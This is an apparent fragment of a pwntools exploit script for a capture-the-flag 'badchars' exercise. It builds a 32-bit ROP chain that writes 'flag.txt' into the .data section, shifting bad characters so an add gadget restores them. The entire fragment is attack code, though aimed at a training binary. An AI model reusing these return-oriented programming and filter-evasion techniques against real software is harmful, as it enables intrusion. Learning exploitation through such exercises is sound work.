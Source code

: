 ```python

# it does, so put it into a variable for our payload
pop_values_gadget =  p32(rop.esi.address)

# locate the start of the .data section header 
data_addr = p32(elf.symbols["data_start"])



# esi is the string we want, so = "flag.txt"
# we're gona write "fl", then one byte at a time, because "fl" are the only consecutive non-bad-chars
esi1 = b"fl\x00\x00"
esi2 = b"\x60\x00\x00\x00"
esi3 = b"\x66\x00\x00\x00"
esi4 = b"\x2d\x00\x00\x00"
esi5 = b"\x74\x00\x00\x00"
esi6 = b"\x77\x00\x00\x00"
esi7 = b"\x74\x00\x00\x00"


# first value we're popping is edi... since we want *edi = ebp = "flag", set edi to .data address
# this is because we're writing the string "flag" to memory starting at the .data section
edi1 = data_addr
# now we go to the data address, and go up 2 places, 
edi2 = p32(elf.symbols["data_start"] + 2)
edi3 = p32(elf.symbols["data_start"] + 3)
edi4 = p32(elf.symbols["data_start"] + 4)
edi5 = p32(elf.symbols["data_start"] + 5)
edi6 = p32(elf.symbols["data_start"] + 6)
edi7 = p32(elf.symbols["data_start"] + 7)


#print("edi1 is: " , edi1)
#print("edi2 is: " , edi2)
#print("edi3 is: " , edi3)
#print("edi4 is: " , edi4)
#print("edi5 is: " , edi5)
#print("edi6 is: " , edi6)
#print("edi7 is: " , edi7)


# ebps
fake_ebp1 = p32(elf.symbols["data_start"])
fake_ebp2 = edi2
fake_ebp3 = edi3
fake_ebp4 = edi4
fake_ebp5 = edi5
fake_ebp6 = edi6
fake_ebp7 = edi7

#print("ebp is: " , fake_ebp1)
#print("ebp2 is: " , fake_ebp2)
#print("ebp3 is: " , fake_ebp3)
#print("ebp4 is: " , fake_ebp4)
#print("ebp5 is: " , fake_ebp5)

# address of useful gadget that will set *edi = esi
store_string_in_data_gadget = p32(elf.symbols["usefulGadgets"] + 12)

# address of our rop gadget that adds bl to *ebp
add_1_to_string_gadget = p32(elf.symbols["usefulGadgets"])

```